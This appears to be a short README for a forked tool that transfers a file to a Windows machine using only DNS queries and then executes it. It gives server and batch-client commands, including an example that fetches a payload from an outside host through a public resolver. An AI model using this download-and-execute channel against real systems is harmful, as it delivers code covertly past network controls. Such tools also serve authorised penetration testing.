 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserver_ _fileparts_ _publicdnsserver_**
Example: client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8

Original author:
http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:
Daniel Vinakovsky
